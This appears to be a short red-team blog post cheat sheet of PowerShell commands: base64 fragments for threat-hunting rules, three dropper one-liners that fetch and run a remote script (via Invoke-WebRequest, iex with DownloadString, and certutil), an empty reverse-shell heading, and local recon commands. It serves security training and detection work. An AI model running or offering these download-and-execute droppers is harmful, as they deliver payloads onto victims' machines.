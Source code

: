 ```yaml
---
layout: post
title:  "Powershell for Red Teaming"
date:   2025-06-16 21:00:00 +1000
categories: scripts
---
```


## Red teaming powershell scripts. Droppers and more.

--- Threat Hunting Patterns ---
Base64 is deterministic. Meaning there is no randomness. So, identifying patterns is important when threat hunting and creating SIEM rules.
- SQBuAHYAbwBrAGUALQBX (Invoke-WebRequest)
- aQBlAHgAIAAoAE4AZQB3 (iex (New-Object Net.WebClient))

### Droppers
--- Unencoded Droppers ---
- ``` powershell -Command "Invoke-WebRequest -Uri 'https://google.com/safe-script.ps1' -OutFile $env:TEMP\Word.ps1; & $env:TEMP\Word.ps1" ``` (Downloads to disk)
- ``` powershell -Command "iex(New-Object Net.WebClient).DownloadString('https://google.com/safe-script.ps1')" ``` (Downloads to memory)
- ``` powershell -Command certutil -urlcache -split -f https://google.com/safe-script.ps1 payload.exe``` (LOLBAS Download)

### Reverse Shell One-Liners
--- TCP Rev Shell ---

### Recon Commands
--- Local Recon ---
- Get-Process
- Get-LocalUser
- Get-NetIPConfiguration
- Get-NetTCPConnection | Where-Object {$_.State -eq "Listen"}
- whoami /user
- Get-LocalGroupMember -Group "Administrators"
- Get-LocalGroup | ForEach-Object { Get-LocalGroupMember -Group $_.Name }
- Get-SmbShare
- net view \\hostname

--- Domain Recon ---